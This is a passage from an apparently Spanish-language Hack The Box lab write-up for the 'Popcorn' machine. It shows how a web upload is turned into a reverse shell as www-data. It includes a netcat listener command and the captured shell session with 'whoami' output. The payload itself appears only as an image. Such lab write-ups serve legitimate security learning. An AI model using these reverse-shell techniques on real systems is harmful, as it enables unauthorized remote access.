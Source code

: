 ![](/assets/images/htb-writeup-popcorn/ok.png)

## Shell as www-data 

Una vez subido todo vemos que podemos ejecutar comandos

![](/assets/images/htb-writeup-popcorn/ok2.png)

Vamos a ganar acceso 

```bash
❯ nc -nlvp 443
listening on [any] 443 ...

``` 

![](/assets/images/htb-writeup-popcorn/rev.png)

Al darla al ENTER nos llega la **shell** 

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.6] 52756
bash: no job control in this shell
www-data@popcorn:/var/www/torrent/upload$ whoami
whoami
www-data
www-data@popcorn:/var/www/torrent/upload$ 
```
